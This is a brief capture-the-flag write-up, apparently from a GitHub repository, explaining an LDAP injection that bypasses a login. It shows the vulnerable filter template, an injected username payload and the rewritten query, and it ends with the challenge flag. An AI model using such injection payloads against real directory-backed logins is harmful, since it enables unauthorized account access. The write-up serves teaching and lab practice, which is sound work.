

Here there is basic `LDAP Injection`.

The `LDAP` query looks like, where `{}` contain user input:
```
(&(uid={})(userPassword={}))
```

So, if we give this:
```
username=*)(|(uid=*&password=a)
```

The query will be:
```
(&(uid=*)(|(uid=*)(userPassword=a)))
```
Which tranlates to:
```
(   & (uid=*)  ) 
(   | (uid=*)(userPassword=a)  )
```
And because there are users which aren't null, the query will work.



**Flag:** **_`SWRwehpkTI3Vu2F9DoTJJ0LBO`_**